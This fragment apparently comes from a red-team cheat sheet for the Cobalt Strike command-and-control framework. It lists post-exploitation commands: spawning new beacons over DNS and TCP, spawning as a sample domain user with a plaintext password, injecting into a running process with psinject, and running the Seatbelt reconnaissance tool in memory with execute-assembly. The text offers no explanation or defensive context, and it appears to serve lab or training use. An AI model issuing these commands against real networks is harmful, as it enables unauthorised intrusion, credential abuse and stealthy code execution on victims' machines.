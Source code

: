 
spawn new beacons
```powershell
spawn x64 dns
spawnas CONTOSO\rsteel Passw0rd! tcp-local
```

Executing commands
```
powerpick $env:computername
psinject 6696 x64 $env:username`
```

Execute a .NET assembly in memory
```powershell
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus
```

